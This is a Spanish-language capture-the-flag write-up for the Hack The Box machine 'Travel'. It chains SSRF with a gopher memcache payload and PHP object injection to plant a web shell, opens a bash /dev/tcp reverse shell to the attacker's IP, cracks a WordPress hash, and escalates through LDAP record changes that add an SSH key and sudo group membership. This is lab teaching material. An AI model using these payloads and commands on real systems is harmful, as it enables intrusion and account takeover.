

# Travel

**OS**: Linux \
**Dificultad**: Difícil \
**Puntos**: 40

## Resumen
- GitDumper
- Server Side Request Forgery (SSRF)
- PHP Object Injection
- Memcache exploit
- LDAP
- Modificación registros LDAP

## Nmap Scan
`nmap -Pn -sV -sC -p- 10.10.10.189`

```
Nmap scan report for 10.10.10.189
Host is up (0.074s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.17.6
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB
443/tcp open  ssl/http nginx 1.17.6
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB - SSL coming soon.
| ssl-cert: Subject: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
| Not valid before: 2020-04-23T19:24:29
|_Not valid after:  2030-04-21T19:24:29
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 20 15:16:05 2020 -- 1 IP address (1 host up) scanned in 55.51 seconds
```

## Enumeración

Se puede visualizar que hay nombres de dominios los cuales agregamos a nuestro **/etc/hosts**.

`sudo nano /etc/hosts`
```
10.10.10.189    travel.htb www.travel.htb blog.travel.htb blog-dev.travel.htb
```

Utilizamos **dirb** para enumerar directorios, después de revisar cada subdominio, http://blog-dev.travel.htb/ nos arroja un directorio **.git**, que al parecer puede ser interesante.

`dirb http://blog-dev.travel.htb/`


Usamos **git-dumper** para hacer dump del repositorio desde el sitio web.

`python3 git-dumper.py http://blog-dev.travel.htb/ ~/htb/Box/Linux/Travel/git`


Vemos que nos descarga tres archivos **README.md, rss_template.php y template.php**.

##### README.md
```
# Rss Template Extension

Allows rss-feeds to be shown on a custom wordpress page.

## Setup

* `git clone https://github.com/WordPress/WordPress.git`
* copy rss_template.php & template.php to `wp-content/themes/twentytwenty` 
* create logs directory in `wp-content/themes/twentytwenty` 
* create page in backend and choose rss_template.php as theme

## Changelog

- temporarily disabled cache compression
- added additional security checks 
- added caching
- added rss template

## ToDo

- finish logging implementation
```

##### rss_template.php
```php
<?php
/*
Template Name: Awesome RSS
*/
include('template.php');
get_header();
?>

<main class="section-inner">
	<?php
	function get_feed($url){
     require_once ABSPATH . '/wp-includes/class-simplepie.php';	    
     $simplepie = null;	  
     $data = url_get_contents($url);
     if ($url) {
         $simplepie = new SimplePie();
         $simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');
         //$simplepie->set_raw_data($data);
         $simplepie->set_feed_url($url);
         $simplepie->init();
         $simplepie->handle_content_type();
         if ($simplepie->error) {
             error_log($simplepie->error);
             $simplepie = null;
             $failed = True;
         }
     } else {
         $failed = True;
     }
     return $simplepie;
 	 }

 	$url = $_SERVER['QUERY_STRING'];
	if(strpos($url, "custom_feed_url") !== false){
		$tmp = (explode("=", $url)); 	
		$url = end($tmp); 	
 	 } else {
 	 	$url = "http://www.travel.htb/newsfeed/customfeed.xml";
 	 }
 	 $feed = get_feed($url); 
     if ($feed->error())
		{
			echo '<div class="sp_errors">' . "\r\n";
			echo '<p>' . htmlspecialchars($feed->error()) . "</p>\r\n";
			echo '</div>' . "\r\n";
		}
		else {
	?>
	<div class="chunk focus">
		<h3 class="header">
		<?php 
			$link = $feed->get_link();
			$title = $feed->get_title();
			if ($link) 
			{ 
				$title = "<a href='$link' title='$title'>$title</a>"; 
			}
			echo $title;
		?>
		</h3>
		<?php echo $feed->get_description(); ?>

	</div>
	<?php foreach($feed->get_items() as $item): ?>
		<div class="chunk">
			<h4><?php if ($item->get_permalink()) echo '<a href="' . $item->get_permalink() . '">'; echo $item->get_title(); if ($item->get_permalink()) echo '</a>'; ?>&nbsp;<span class="footnote"><?php echo $item->get_date('j M Y, g:i a'); ?></span></h4>
			<?php echo $item->get_content(); ?>
			<?php
			if ($enclosure = $item->get_enclosure(0))
			{
				echo '<div align="center">';
				echo '<p>' . $enclosure->embed(array(
					'audio' => './for_the_demo/place_audio.png',
					'video' => './for_the_demo/place_video.png',
					'mediaplayer' => './for_the_demo/mediaplayer.swf',
					'altclass' => 'download'
				)) . '</p>';
				if ($enclosure->get_link() && $enclosure->get_type())
				{
					echo '<p class="footnote" align="center">(' . $enclosure->get_type();
					if ($enclosure->get_size())
					{
						echo '; ' . $enclosure->get_size() . ' MB';
					}
					echo ')</p>';
				}
				if ($enclosure->get_thumbnail())
				{
					echo '<div>get_thumbnail() . '" alt="" /></div>';
				}
				echo '</div>';
			}
			?>

		</div>
	<?php endforeach; ?>
<?php } ?>
</main>

<!--
DEBUG
<?php
if (isset($_GET['debug'])){
  include('debug.php');
}
?>
-->

<?php get_template_part( 'template-parts/footer-menus-widgets' ); ?>

<?php
get_footer();
```

##### template.php
```php
<?php

/**
 Todo: finish logging implementation via TemplateHelper
*/

function safe($url)
{
	// this should be secure
	$tmpUrl = urldecode($url);
	if(strpos($tmpUrl, "file://") !== false or strpos($tmpUrl, "@") !== false)
	{		
		die("<h2>Hacking attempt prevented (LFI). Event has been logged.</h2>");
	}
	if(strpos($tmpUrl, "-o") !== false or strpos($tmpUrl, "-F") !== false)
	{		
		die("<h2>Hacking attempt prevented (Command Injection). Event has been logged.</h2>");
	}
	$tmp = parse_url($url, PHP_URL_HOST);
	// preventing all localhost access
	if($tmp == "localhost" or $tmp == "127.0.0.1")
	{		
		die("<h2>Hacking attempt prevented (Internal SSRF). Event has been logged.</h2>");		
	}
	return $url;
}

function url_get_contents ($url) {
    $url = safe($url);
	$url = escapeshellarg($url);
	$pl = "curl ".$url;
	$output = shell_exec($pl);
    return $output;
}


class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
    	$this->init($file, $data);
    }

    public function __wakeup()
    {
    	$this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {    	
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}
```

## PHP Object Injection

Después de revisar los archivos nos percatamos que hay una opción **debug** en el código de **rss_template.php**.

```php
<!--
DEBUG
<?php
if (isset($_GET['debug'])){
  include('debug.php');
}
?>
-->
```

Si agregamos ese parámetro a la URL nos regresa parte de un hash y lo que parece ser un objeto en PHP.


En esta parte del código podemos ver que existe otro parámetro que está haciendo consulta a una URL con un archivo **XML**.

```php
$url = $_SERVER['QUERY_STRING'];
	if(strpos($url, "custom_feed_url") !== false){
		$tmp = (explode("=", $url)); 	
		$url = end($tmp); 	
 	 } else {
 	 	$url = "http://www.travel.htb/newsfeed/customfeed.xml";
	  }
```

Creamos un archivo XML con contenido RSS y lo ponemos en un simple servidor web para hacer la petición a través del parámetro **custom_feed_url**.

`sudo python3 -m http.server 8000`

##### doom.xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rss version="2.0">

<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>RSS Tutorial</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss> 
```

Podemos ver que al parecer carga nuestro XML en la página, esto es conocido como **Server Side Request Forgery**.

> La falsificación de solicitudes del lado del servidor es un tipo de explotación en la que un atacante abusa de la funcionalidad de un servidor, lo que hace que acceda o manipule información en el ámbito de ese servidor que de otro modo no sería directamente accesible para el atacante.


Otra cosa muy importante es esta porción de código.

```php
function get_feed($url){
     require_once ABSPATH . '/wp-includes/class-simplepie.php';	    
     $simplepie = null;	  
     $data = url_get_contents($url);
     if ($url) {
         $simplepie = new SimplePie();
         $simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');
         //$simplepie->set_raw_data($data);
		 $simplepie->set_feed_url($url);
```

Investigando un poco sobre **memcache** y como explotarlo nos encontramos con un par de artículos interesantes:

https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf \
https://medium.com/@d0znpp/ssrf-memcached-and-other-key-value-injections-in-the-wild-c8d223bd856f

Teniendo todo lo anterior en cuenta podemos ver que **template.php** tiene una clase llamada **TemplateHelper** la cual podemos usar para crear nuestro objeto serializado.

> Inyección de objetos PHP (PHP Object Injection) es la manipulación arbitraria del contenido de un objeto que será deserializado posteriormente a través del uso de la función unserialize() de PHP.

##### serialize.php
```php
<?php

class TemplateHelper
{
    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {
        $this->file = $file;
        $this->data = $data;
    }
}

$file = "doom.php";
$data = "<?php system(\$_GET['cmd']);?>";
$obj = new TemplateHelper($file, $data);
$serial = serialize($obj);

$fp = fopen("payload.txt","w");
fputs($fp, $serial);
fclose($fp)

?>
```

Pero hay un problema, ya que necesitamos saber el hash correcto para que funcione la inyección de objetos, investigando un poco sobre [simplepie cache memcache](https://simplepie.org/api/source-class-SimplePie_Cache_Memcache.html#81) y [simplepie cache base](https://simplepie.org/api/class-SimplePie_Cache_Base.html), podemos ver esto.

```php
/**
* Create a new cache object
*
* @param string $location Location string (from SimplePie::$cache_location)
* @param string $name Unique ID for the cache
* @param string $type Either TYPE_FEED for SimplePie data, or TYPE_IMAGE for image data
*/
public function __construct($location, $name, $type)
{
    $this->options = array(
    	'host' => '127.0.0.1',
    	'port' => 11211,
    	'extras' => array(
    		'timeout' => 3600, // one hour
    		'prefix' => 'simplepie_',
 		),
 	);
 	$parsed = SimplePie_Cache::parse_URL($location);
  	$this->options['host'] = empty($parsed['host']) ? $this->options['host'] : $parsed['host'];
	$this->options['port'] = empty($parsed['port']) ? $this->options['port'] : $parsed['port'];
	$this->options['extras'] = array_merge($this->options['extras'], $parsed['extras']);
	$this->name = $this->options['extras']['prefix'] . md5("$name:$type");
	
	$this->cache = new Memcache();
	$this->cache->addServer($this->options['host'], (int) $this->options['port']);
}
```

Uniendo todo lo anterior nos podemos dar la idea de como crear el hash correcto.

##### md5.php
```php
<?php
$url = "http://10.10.14.147:8000/doom.xml";
$name = "xct_" . md5(md5($url) . ":spc");
echo $name;
echo "\n";
?>
```

Podemos ver que los primeros caracteres del hash coinciden.

`php md5.php`


Ahora nos faltaría crea nuestro payload utilizando [Gopherus](https://github.com/tarunkant/Gopherus).

Creamos el objeto serializado y se lo pasamos a gopherus como entrada.

`php serialize.php`


`python /opt/Gopherus/gopherus.py --exploit phpmemcache < payload.txt`


Si vemos el archivo **template.php** tenemos unas cuantas restricciones, para hacer bypass de la IP **127.0.0.1** utilizaremos **0.0.0.0** y cambiamos **SpyD3r** por el hash **xct_3c1a9f8f56e3f008f2301f8eddffc7bc**.

```
gopher://0.0.0.0:11211/_%0d%0aset%20xct_3c1a9f8f56e3f008f2301f8eddffc7bc%204%200%20134%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:20:%22%00TemplateHelper%00file%22%3Bs:8:%22doom.php%22%3Bs:20:%22%00TemplateHelper%00data%22%3Bs:29:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a
```

Procedemos a realizar el ataque.
- Server Side Request Forgery
- Gopher cambiara la configuración del cache con el objeto php serializado
- Server Side Request Forgery cargara desde el cache
- Accederemos al archivo creado en el directorio logs

```
http://blog.travel.htb/awesome-rss/?debug&custom_feed_url=http://10.10.14.147:8000/doom.xml
```


```
http://blog.travel.htb/awesome-rss/?debug&custom_feed_url=gopher://0.0.0.0:11211/_%0d%0aset%20xct_3c1a9f8f56e3f008f2301f8eddffc7bc%204%200%20134%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:20:%22%00TemplateHelper%00file%22%3Bs:8:%22doom.php%22%3Bs:20:%22%00TemplateHelper%00data%22%3Bs:29:%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a
```


```
http://blog.travel.htb/awesome-rss/?debug&custom_feed_url=http://10.10.14.147:8000/doom.xml
```


```
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/doom.php?cmd=id
```


Obtendremos una revserse shell con la web shell que hemos creado.

Ponemos a la escucha nuestro netcat.

`nc -lvnp 1234`

Y mandamos la petición.

```
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/doom.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.147/1234+0%3E%261%27
```


## Escalada de Privilegios (User)

Enumerando los directorios llegamos a la ruta **/opt/wordpress** la cual tiene un archivo llamado **backup-13-04-2020.sql**.

- `cd /opt/wordpress/`
- `cat backup-13-04-2020.sql`

Se puede ver algo muy interesante dentro del archivo.

```
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```

Procedemos a crackear el hash de **lynik-admin**.

`sudo john lynik-admin.hash -wordlist=/usr/share/wordlists/rockyou.txt`



Y nos conectamos por SSH.

`ssh lynik-admin@10.10.10.189`


## Escalada de Privilegios (Root)

Enumerando en **/home/lynik-admin** vemos 2 archivos interesantes **.ldaprc** y **.viminfo**. Existe un dominio **ldap** y un posible password para acceder al mismo.


Utilizamos **ldapsearch** para ver los registros, específicamente de la clase **person**.

`ldapsearch -H ldap://ldap.travel.htb -D "CN=lynik-admin,DC=travel,DC=htb" -w Theroadlesstraveled -b "DC=travel,DC=htb" "(objectClass=person)"`


Investigando un poco pudimos descubrir que es posible modificar un registro ldap, lo cual utilizaremos para agregar nuestra llave publica ssh y conectarnos por ese servicio.

Creamos nuestro archivo **.ldif**:

- `nano ldap_user.ldif`
- `cat ldap_user.ldif`

##### ldap_user.ldif
```
dn: uid=jerry,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCp+35X9aTn2YDDHkJMeD1MFMXBZx8PXkYQoCqjKolnrhTkmojkLeEqioKV3NBKdHOY+XxqUMJh8WMbrbzwf3pNrrqdU+yifHqmecpGyFrwyiHRfY3TpNEUMEIRI+bHYLSnmsQXU/Iji+qd7MQSW62X4jxs9OuD5gMoKYHx4jEYAJgQfcAMvwIvRPMFAJEC0RlMVYVwhLMGCqYHz25Y6do7Cqw6C2S/l/nHfUtGkpcfDrO7BO3Y2vuwDNnmJ+4HiU4ziN1lbLVeYBtbZixIy42Kj8lJ05uOtLQo/l0jzyV54vUQTB5CKVX0Lmbey3f2/IfRpjzTBOrjX4bHK7GNNT6xJAFbASzRZq4yWqAuduu8It5p9dzVo8fyI2eNiXIkca5V/VwnN39U5P3vBsL0kui1LS6Sa38ovLYFqH8fSZLDPpWBvXziwTLLfgiZxEoE/meutAwAHpjlcEAUkChHkOiE0KYrwwr+3cpDMlAqJhg09JfEeEaeBgCClVLonBEjFc0= marty@mcfly
-
replace: userPassword
userPassword: doom
-
replace: gidNumber
gidNumber: 27
```


Usamos **ldapmodify** para modificar el registro.

`ldapmodify -H ldap://ldap.travel.htb -D "CN=lynik-admin,DC=travel,DC=htb" -w Theroadlesstraveled -f ldap_user.ldif`


Posteriormente nos conectamos por ssh.

`ssh jerry@10.10.10.189`


Podemos ver que tenemos permisos **sudo** debido a que agregamos al usuario al grupo sudo al momento de modificar el usuario y le dimos el password **doom**.

```
replace: userPassword
userPassword: doom
-
replace: gidNumber
gidNumber: 27
```

Utilizando sudo nos cambiamos al usuario root.

`sudo su`


## Referencias
https://github.com/arthaud/git-dumper \
https://www.w3schools.com/xml/xml_rss.asp \
https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf \
https://medium.com/@d0znpp/ssrf-memcached-and-other-key-value-injections-in-the-wild-c8d223bd856f \
https://blog.ripstech.com/2018/php-object-injection/ \
https://simplepie.org/api/source-class-SimplePie_Cache_Memcache.html#81 \
https://github.com/tarunkant/Gopherus \
https://www.digitalocean.com/community/tutorials/how-to-use-ldif-files-to-make-changes-to-an-openldap-system
